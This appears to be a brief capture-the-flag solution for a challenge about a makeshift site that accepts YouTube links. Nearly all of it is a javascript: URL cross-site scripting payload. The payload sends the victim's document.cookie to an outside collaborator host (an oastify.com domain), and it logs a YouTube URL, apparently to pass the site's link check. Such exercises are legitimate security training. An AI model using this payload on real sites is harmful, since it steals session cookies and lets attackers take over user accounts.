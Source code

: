 solution `javascript:document.location="url?c="+document.cookie;console.log("https://www.youtube.com/watch?v=")`

whilst the scientist is away, he created this makeshift site for you to be able to send him youtube videos.


javascript:document.location="http://o5uvpbvmbgyvvkaf1jb29z5x8oef26qv.oastify.com?a="+document.cookie;console.log("https://www.youtube.com/watch?v=")

